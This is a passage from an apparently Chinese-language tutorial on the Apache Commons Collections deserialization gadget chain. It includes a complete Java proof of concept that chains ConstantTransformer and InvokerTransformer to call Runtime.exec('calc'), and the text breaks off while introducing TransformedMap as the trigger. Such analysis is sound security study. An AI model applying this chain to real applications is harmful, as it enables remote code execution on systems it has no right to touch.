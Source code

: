 ```java
for(int i = 0; i < this.iTransformers.length; ++i) {
    object = this.iTransformers[i].transform(object);
}

return object;
}
```
这个构造方法传入了一个Transformer类的数组。transform用来遍历它传入的数组进而调用transform方法，那如何将这三种形成一个完整的链子结合起来呢，我们总结了以下的链子结合如下：
ChainedTransformer(ConstantTransformer(Runtime.getRuntime()),InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})------->ChainedTransformer.transform("ctfjava") 
具体可以源码动调下，这里就省略了
完整的poc如下：
```java
package com.ctfjava.main;

import com.ctfjava.entity.User;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class TestCC {
    public static void main(String[] args){
        //php的伪协议  接口
        Transformer transformer;
        //常量转换器，无论输入如何对象返回固定在
        ConstantTransformer constantTransformer=new ConstantTransformer(Runtime.getRuntime());
        Object o=constantTransformer.transform(new User());
        System.out.println(o);  //java.lang.Runtime@45ee12a7
        //反射
        InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        ChainedTransformer chainedTransformer=new ChainedTransformer(new Transformer[]{constantTransformer,invokerTransformer});
        chainedTransformer.transform("ctfjava");
    }
}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22994699/1714458974672-6af18cd0-4e48-41bc-a7a9-8f5f9fb5b573.png#averageHue=%2325272b&clientId=u5c5286c2-f5bf-4&from=paste&height=311&id=u8853002a&originHeight=1433&originWidth=1849&originalType=binary&ratio=2.200000047683716&rotation=0&showTitle=false&size=297744&status=done&style=none&taskId=u80385d0e-8d76-4eab-b151-fa8ea7fd54d&title=&width=401.8082275390625)
成功弹出计算器
下面就是我们去如何利用反序列化去触发它了，这个稍微麻烦点看的时候看的有点发懵，但搞清楚还是挺开朗的，这个触发链子是利用了jdk1.7下的内部库中的AnnotationInvocationHandler类。这个用idea在拓展里的路径是rt.jar--->sun--->reflect---->AnnotationInvocationHandler, 在分析利用之前看下TransformedMap类
```java
public class TransformedMap extends AbstractInputCheckedMapDecorator implements Serializable {

    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }

    protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }


    protected Object checkSetValue(Object value) {
        return this.valueTransformer.transform(value);
    }


    public Object put(Object key, Object value) {
        key = this.transformKey(key);
```